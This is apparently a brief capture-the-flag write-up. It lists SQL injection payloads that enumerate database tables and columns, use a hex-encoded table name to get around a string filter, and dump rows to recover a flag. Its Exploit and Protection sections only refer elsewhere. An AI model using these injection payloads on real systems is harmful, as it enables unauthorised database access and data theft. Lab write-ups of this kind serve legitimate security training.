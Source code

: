 # Vulnerability

Get all the tables name on the Database:
```
1 and 1=0 union select null,table_name from information_schema.tables limit 41,4
```

Get the fields available of the list_images table:
`0x6c6973745f696d61676573` is basically `list_images` but since we can't use strings we put it in hex form
```
1 and 1=0 union select null,column_name from information_schema.columns where table_name=0x6c6973745f696d61676573
```

Get the flag:
```
1 and 1=0 union select title,comment from list_images limit 4,1
```

`1928e8083cf461a51303633093573c46` -> albatroz 
`echo -n "albatroz" | shasum -a 256` -> got the flag

# Exploit

See 11...

# Protection

See 11...
